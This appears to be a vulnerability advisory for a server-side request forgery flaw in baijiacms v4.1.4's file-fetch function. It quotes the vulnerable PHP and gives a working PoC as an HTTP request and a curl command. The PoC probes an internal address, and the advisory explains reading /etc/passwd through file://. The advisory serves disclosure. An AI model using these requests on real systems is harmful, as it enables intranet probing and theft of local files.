



# SSRF vulnerability in `fetch_net_file_upload` Function of `file.php` File (baijiacms v4.1.4 version)

## 0x01 Affected version

vendor: https://baijiacms.github.io/baijiacmsv4/index.html

version: V4.1.4

php version: 7.x

## 0x02 Vulnerability description

A Server-Side Request Forgery (SSRF) in `fetch_net_file_upload` function of baijiacmsv4 allows remote attackers to force the application to make arbitrary requests via injection of arbitrary URLs into the `url` parameter. We should note that the vulnerability requires authentication before it can be triggered.


The vulnerable code is located in the `fetch_net_file_upload` function in the `includes/baijiacms/common.inc.php` file. This function is called in the file `system/public/class/web/file.php`. Because the function does not perform sufficient checksumming on the `url` parameter, the taint is introduced from the `$url` variable into the tainted function `file_get_contents`, and after the `file_get_contents` function is executed it sends a request to the URL specified by the url parameter, eventually leading to an SSRF vulnerability.


The file `system/public/class/web/file.php` calls the `fetch_net_file_upload` function with the following code
```php
if ($do == 'fetch') {
    $url = trim($_GPC['url']); // $_GPC actually is $_GET 
    $file = fetch_net_file_upload($url);
    if (is_error($file)) {
        $result['message'] = $file['message'];
        die(json_encode($result));
    }
}
```


The relevant code for the file `includes/baijiacms/common.inc.php` is shown below

```php
function fetch_net_file_upload($url)
{
    $url = trim($url);
    $extention = pathinfo($url, PATHINFO_EXTENSION);
    $path = '/attachment/';
    $extpath = "{$extention}/" . date('Y/m/');

    mkdirs(WEB_ROOT . $path . $extpath);
    do {
        $filename = random(15) . ".{$extention}";
    } while (is_file(SYSTEM_WEBROOT . $path . $extpath . $filename));


    $file_tmp_name = SYSTEM_WEBROOT . $path . $extpath . $filename;
    $file_relative_path = $extpath . $filename;
    if (file_put_contents($file_tmp_name, file_get_contents($url)) == false) {
        $result['message'] = '提取失败.';
        return $result;
    }
    $file_full_path = WEB_ROOT . $path . $extpath . $filename;
    return file_save($file_tmp_name, $filename, $extention, $file_full_path, $file_relative_path);
}
```

Because the `url` parameter is unrestricted, it is also possible to use the server side to send requests, such as probing intranet web services. The corresponding PoC is as follows

```
GET /index.php?mod=site&do=file&act=public&op=fetch&beid=1&url=http%3A%2F%2F172.16.119.1%2Fzfuzz HTTP/1.1
Host: 172.16.119.141
Accept: application/json, text/javascript, */*; q=0.01
Cookie: PHPSESSID=e7m370238fh577ta0kbqmkr7e1; __fileupload_type=image; __fileupload_dest_dir=; __fileupload_global=
Connection: close
```



You can also use the following curl command to verify the vulnerability

```
curl -i -s -k -X $'GET' \
    -H $'Host: 172.16.119.141' -H $'Accept: application/json, text/javascript, */*; q=0.01' -H $'Connection: close' \
    -b $'PHPSESSID=e7m370238fh577ta0kbqmkr7e1; __fileupload_type=image; __fileupload_dest_dir=; __fileupload_global=' \
    $'http://172.16.119.141/index.php?mod=site&do=file&act=public&op=fetch&beid=1&url=http%3A%2F%2F172.16.119.1%2Fzfuzz'
```

The vulnerability can also be exploited to read arbitrary local files using the `file://` protocol, as the vulnerability saves the fetched content under the `attachment` folder and returns the corresponding file name. So we can directly access the corresponding file to get the file content.



Access the corresponding file to get the contents of the `/etc/passwd` file



### 0x03 Acknowledgement

z3